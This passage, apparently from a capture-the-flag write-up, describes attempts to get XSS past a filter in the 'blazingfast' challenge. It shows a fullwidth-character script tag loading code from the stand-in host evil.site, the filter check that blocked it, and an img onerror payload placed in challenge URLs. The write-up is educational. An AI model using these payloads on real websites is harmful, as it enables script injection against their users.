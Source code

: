 ```html
＜script/src=//evil.site/poc.js＞
```

Trick didn't worked out, due to this check on the JS. Our unicode characters were way above it:

```js
if (c.charCodeAt(0) > 128) return 'Nice try.';
```

### Algorithm logic

**Spoiler: base concept was wrong, since we couldn't achieve a two URL call in the admin ^^'**

Concept: Our input is written in the buffer if we use use normal ASCII caracters. Then, we can set our payload with an offset in a first call to the URL, then make a call with a payload with length equals than the first offset.

First we call the website with the following URL:

```html
https://blazingfast.mc.ax/?demo=.....<img src='x' onerror='alert(1)'>
https://blazingfast.mc.ax/?demo=.....%3Cimg%20src=%27x%27%20onerror=%27alert(1)%27%3E
```

Then, we remove the part with the payload and left the valid offset. Call the function again and we can see that the payload is being written into the HTML. alert is not popping due to the uppercase done previously in the JS, the rest of the payload is working fine, since browser is correctly interpreting the HTML keywords:

<p align="center">